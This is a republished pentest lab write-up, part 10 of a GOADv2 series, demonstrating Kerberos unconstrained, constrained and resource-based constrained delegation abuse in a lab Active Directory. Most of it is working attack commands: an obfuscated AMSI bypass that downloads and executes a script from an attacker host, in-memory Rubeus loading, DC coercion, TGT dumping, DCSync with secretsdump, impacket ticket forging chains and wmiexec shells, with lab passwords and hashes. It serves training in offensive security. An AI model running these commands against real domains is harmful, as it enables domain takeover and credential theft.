> [!NOTE]
> Original post can be found here:
> https://mayfly277.github.io/posts/GOADv2-pwning-part10/


On the previous post we done some lateral move on the domain.

Now let’s try some delegation attacks. Here i will just demonstrate the exploitation, if you want to understand the delegation concept and go further you should read the following articles which are really awesome :

- hackndo :
    - [https://en.hackndo.com/constrained-unconstrained-delegation/](https://en.hackndo.com/constrained-unconstrained-delegation/)
    - [https://beta.hackndo.com/unconstrained-delegation-attack/](https://beta.hackndo.com/unconstrained-delegation-attack/)
    - [https://beta.hackndo.com/resource-based-constrained-delegation-attack/](https://beta.hackndo.com/resource-based-constrained-delegation-attack/)
- harmj0y:
    - [https://blog.harmj0y.net/activedirectory/s4u2pwnage/](https://blog.harmj0y.net/activedirectory/s4u2pwnage/)
- Elad Shamir :
    - [https://eladshamir.com/2019/01/28/Wagging-the-Dog.html](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html)

# Delegations

- There is three type of delegation in active directory:
    - Unconstrained delegation
    - Constrained delegation
    - Resource based delegation
- In this blog post we will exploit the three of them.

## Unconstrained delegation

- One way to find unconstrained delegation is to look in bloodhound :
```
MATCH (c {unconstraineddelegation:true}) return c
```



> By default on windows active directory all domain controller are setup with unconstrained delegation

If you want to search for unconstrained delegation system (out of domain controller) :
```
MATCH (c1:Computer)-[:MemberOf*1..]->(g:Group) WHERE g.objectid ENDS WITH '-516' WITH COLLECT(c1.name) AS domainControllers MATCH (c2 {unconstraineddelegation:true}) WHERE NOT c2.name IN domainControllers RETURN c2
```


- In the windows GUI it look like this :

### Exploit

- To exploit an unconstrained delegation the simplest way is to do that from windows with Rubeus.
    
- We launch an RDP connection on Winterfell.
    

```
xfreerdp /d:north.sevenkingdoms.local /u:eddard.stark /p:'FightP3aceAndHonor!' /v:192.168.56.11 /cert:ignore
```

> On the previous step we already own the north domain, let’s say we got eddard password.  
> Eddard’s password came in cleartext when you run donPapi on Winterfell because there is a schedule task on this user

- From there we will bypass AMSI and launch Rubeus in memory (just like in part8)

> Off course we could stop the defender anti-virus on the server, but on a real Pentest you didn’t want to do that on your customer servers.

- Prepare our server containing Rubeus.exe and our AMSI bypass.
```
python3 -m http.server 8080
```


- On the RDP session bypass AMSI :
```
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)(new-object system.net.webclient).downloadstring('http://192.168.56.118:8000/amsi_rmouse.txt')|IEX
```


- Now launch Rubeus in memory with execute assembly.
- First we will list the available tickets :
```
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.118:8080/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data);[Rubeus.Program]::MainString("triage");
```



- And now force a coerce of the DC kingslanding to the DC winterfell.

```
coercer coerce -u arya.stark -d north.sevenkingdoms.local -p Needle -t kingslanding.sevenkingdoms.local -l winterfell
```


- We look on the triage again :
```
[Rubeus.Program]::MainString("triage")
```



- And now the tgt of kingslanding is present

- To extract it (relaunch coercer and 1 sec later launch the following dump command): (i don’t know why but the rubeus monitor mode doesn’t want to run in execute assembly)
```
[Rubeus.Program]::MainString("dump /user:kingslanding$ /service:krbtgt /nowrap");
```


- We now have the TGT of the domain controller
    
- Let’s continue on linux to pass the ticket and launch dcsync with secretdump :
    
    - copy the ticket without space and return line (in vim i do : `:%s/\s*\n\s*//g`)
    - convert the ticket to ccache
    - use the kerberos ticket and launch secretdump
```
cat tgt.b64|base64 -d > ticket.kirbi
impacket-ticketConverter ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache
impacket-secretsdump -k -no-pass SEVENKINGDOMS.LOCAL/'KINGSLANDING$'@KINGSLANDING
```



> Another way of exploitation, is to do a ptt with Rubeus and launch a dcsync with Mimikatz but this implies to run Mimikatz on Winterfell and bypass the defender AV

> Unless you didn’t notice, the unconstrained delegation abuse was here exploited to pass from the child to the parent domain ;)

## Constrained Delegation

- Find constrained delegation with bloodhound :
```
MATCH p=(u)-[:AllowedToDelegate]->(c) RETURN p
```


> Remark : sharphound seems to not capture the constrained delegation without protocol transition in the lab

- Find all the constrained delegation with impacket :

```
impacket-findDelegation NORTH.SEVENKINGDOMS.LOCAL/arya.stark:Needle -target-domain north.sevenkingdoms.local
```


### With protocol transition

- To abuse the constrained delegation with protocol transition, the concept is to first ask a TGT for the user and execute S4U2Self followed by a S4U2Proxy to impersonate an admin user to the SPN on the target.
    
- From windows with Rubeus:
```
.\Rubeus.exe asktgt /user:jon.snow /domain:north.sevenkingdoms.local /rc4:B8D76E56E9DAC90539AFF05E3CCB1755
.\Rubeus.exe s4u /ticket:put_the__previous_ticket_here /impersonateuser:administrator /msdsspn:CIFS/winterfell /ptt
```    


- From linux with impacket:

```
impacket-getST -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '192.168.56.11' 'north.sevenkingdoms.local/jon.snow:iknownothing'
```


- And next we can use the TGS to connect to smb and get a shell with psexec, smbexec, wmiexec, …

> A good thing to know is that the SPN part is not encrypted in the request, so you can change it to the one you want with the following options :
> 
> - on rubeus : /altservice
> - on impacket : -altservice

> SPN lists Carlos Polop (hacktricks), give a us a useful list of the common SPN and usage on his [silver ticket page](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket#available-services)

### Without protocol transition

> [!NOTE]
> I have to double check this part


- The constrained delegation with protocol transition was not present originally in the lab, but you can add it with the following commands :

```
sudo docker run -ti --rm --network host -h goadansible -v $(pwd):/goad -w /goad/ansible goadansible ansible-playbook vulnerabilities.yml -l dc02 --tags "data,constrained_delegation_kerb"
```
- Or you could add it by hand with the powershell commands :

```
Set-ADComputer -Identity "castelblack$" -ServicePrincipalNames @{Add='HTTP/winterfell.north.sevenkingdoms.local'}<br>Set-ADComputer -Identity "castelblack$" -Add @{'msDS-AllowedToDelegateTo'=@('HTTP/winterfell.north.sevenkingdoms.local','HTTP/winterfell')}
```

- This result to this in the windows GUI :

- A good example of exploitation can be found here: [https://snovvcrash.rocks/2022/03/06/abusing-kcd-without-protocol-transition.html](https://snovvcrash.rocks/2022/03/06/abusing-kcd-without-protocol-transition.html)

> The self-RBCD trick doesn’t work anymore. When i was writing this article i tried the self-rbcd without success many times. After multiple tries and fail i ask to charlie (@_nwodtuhs) what i am doing wrong, because i can’t find out why this don’t work as expected. He explained to me that the self rbcd trick didn’t work anymore and have been silent patch by Microsoft :’(

- To exploit the constrained delegation here we only need a forwardable TGS as administrator to any service on castelblack
- But if we do a s4u (s4u2self + s4u2proxy) like we did with protocol transition, the s4uself will send us a not forwardable TGS and the attack will fail.
    
- So to exploit and get the forwardable TGS we need, we first need to add a computer and use RBCD between the created computer (rbcd_const$) and the computer who have delegation set (here castelblack$).
    
- By doing that, you can do a s4u2self followed by a s4u2proxy on the added computer and the result is a forwardable tgs on hots/castelblack$ as administrator.
    
- Once that done, you have the forwardable ticket to pass to s4u2proxy, and we even can change the request service with -altservice

```
# add computer X (rbcd_const)
addcomputer.py -computer-name 'rbcd_const$' -computer-pass 'rbcdpass' -dc-host 192.168.56.11 'north.sevenkingdoms.local/arya.stark:Needle'
# add rbcd from X (rbcd_const) to constrained (castelblack)
rbcd.py -delegate-from 'rbcd_const$' -delegate-to 'castelblack$' -dc-ip 192.168.56.11 -action 'write' -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'
```

- Do the s4u2self followed by the s4u2proxy on castelblack (this is the classic RBCD attack)

```
# s4u2self on X (rbcd_const)
getST.py -self -impersonate "administrator" -dc-ip 192.168.56.11  north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'
# s4u2proxy from X (rbcd_const) to constrained (castelblack)
getST.py -impersonate "administrator" -spn "host/castelblack" -additional-ticket 'administrator@rbcd_const$@NORTH.SEVENKINGDOMS.LOCAL.ccache' -dc-ip 192.168.56.11  north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'
```

- You could also do the 2 (s4u2self + s4u2proxy) in one command :

```
getST.py -spn 'host/castelblack' -impersonate Administrator -dc-ip 192.168.56.11 north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'
```

- And launch the s4uProxy with the forwardable ticket
```
# s4u2proxy from constrained (castelblack) to target (winterfell) - with altservice to change the SPN in use
getST.py -impersonate "administrator" -spn "http/winterfell" -altservice "cifs/winterfell" -additional-ticket 'administrator@host_castelblack@NORTH.SEVENKINGDOMS.LOCAL.ccache' -dc-ip 192.168.56.11 -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'
export KRB5CCNAME=/workspace/administrator@cifs_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache 
wmiexec.py -k -no-pass north.sevenkingdoms.local/administrator@winterfell
```
`

- After the exploit a little clean up of the lab, flush the rbcd entry and delete the computer account with a domain admin:
```
rbcd.py -delegate-to 'castelblack$' -delegate-from 'rbcd_const$' -dc-ip 192.168.56.11 -action 'flush' -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'
addcomputer.py -computer-name 'rbcd_const$' -computer-pass 'rbcdpass' -dc-host 192.168.56.11 'north.sevenkingdoms.local/eddard.stark:FightP3aceAndHonor!' -delete
```


## Resource Based Constrained Delegation

- Resource Based Constrained delegation (RBCD)
    
- You can abuse RBCD when you can edit the attribute : msDS-AllowedToActOnBehalfOfOtherIdentity
    

> A computer account can edit his own attribute msDS-AllowedToActOnBehalfOfOtherIdentity This is usefull when you do ldaps NTLM relay (like in the drop-the-mic attack path), you can then edit the computer attribute and launch an RBCD exploitation.

- An example of exploitation is when you got genericAll or genericWrite ACL on a Computer.

```
MATCH p=(u:User)-[:GenericAll]->(c) RETURN p
```



- You can find this in the lab when you look at the acl on users.
    

- We can see that stannis.baratheon got a generic Write on kingslanding
    
- The RBCD exploitation append with the following commands :
    
- Create a computer X (rbcd$)
    
```
impacket-addcomputer -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-host kingslanding.sevenkingdoms.local 'sevenkingdoms.local/stannis.baratheon:Drag0nst0ne'
```


- Add delegation write on our target from X (rbcd$)

```
impacket-rbcd -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 'kingslanding.sevenkingdoms.local' -action 'write' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
```


- Now X (rbcd$) got delegation permission on our target, you can now do an s4u2self query followed by an S4u2proxy.
- This will result in an administrator permission on kingslanding.

```
impacket-getST -spn 'cifs/kingslanding.sevenkingdoms.local' -impersonate Administrator -dc-ip 'kingslanding.sevenkingdoms.local' 'sevenkingdoms.local/rbcd$:rbcdpass'

export KRB5CCNAME=./Administrator@cifs_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache

impacket-wmiexec -k -no-pass @kingslanding.sevenkingdoms.local 
```



- After the exploit a little clean up of the lab, flush the rbcd entry and delete the computer account with a domain admin:
```
impacket-rbcd -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 'kingslanding.sevenkingdoms.local' -action 'flush' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne

impacket-addcomputer -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-host kingslanding.sevenkingdoms.local 'sevenkingdoms.local/cersei.lannister:il0vejaime' -delete
```


## Ressources - go further

- [https://www.thehacker.recipes/ad/movement/kerberos/delegations](https://www.thehacker.recipes/ad/movement/kerberos/delegations)
- [https://www.notsoshant.io/blog/attacking-kerberos-constrained-delegation/](https://www.notsoshant.io/blog/attacking-kerberos-constrained-delegation/)
- [https://sensepost.com/blog/2020/chaining-multiple-techniques-and-tools-for-domain-takeover-using-rbcd/](https://sensepost.com/blog/2020/chaining-multiple-techniques-and-tools-for-domain-takeover-using-rbcd/)
- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse)
- [https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/delegation-abuse](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/delegation-abuse)
- And i recommend you to take a look at charlie’s talk about delegation : [https://www.thehacker.recipes/ad/movement/kerberos/delegations#talk](https://www.thehacker.recipes/ad/movement/kerberos/delegations#talk)

Next time we will have fun with ACL  :)